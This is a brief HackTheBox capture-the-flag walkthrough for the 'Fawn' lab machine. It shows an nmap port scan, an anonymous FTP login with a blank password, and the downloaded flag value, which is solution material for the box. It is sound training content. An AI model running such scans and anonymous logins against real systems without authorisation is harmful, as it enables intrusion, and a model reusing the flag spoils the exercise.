

# [HackTheBox] [Fawn]: [Enumeration], [Foothold]

**Target:** [Fawn] | **OS:** Linux | **Difficulty:** Super Easy 
**Attack Vector:** [Enumeration -> Foothold -> Flag]

---

## 1. Enumeration

```bash
sudo nmap -p- -sS ---min-rate 5000 -T3 10.129.118.231
```

PORT   STATE SERVICE
21/tcp open  ftp

Those are the results of our scan, so lets search a bit about File Transfer Protocol



In this image we can see default credentials, so after trying with `anonymous` we succesfully logged in using a blank password.

## 2. Foothold

```bash
ftp 10.129.118.231
```

Here we use the default cretendial we found before

`230 Login successful.`

```shell
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.0026 seconds (11.9356 kbytes/s)
ftp> quit
221 Goodbye.
```

## 3. Flag

```bash
➜ cat flag.txt
035db21c881520061c53e0536e44f815
```

Pwned.
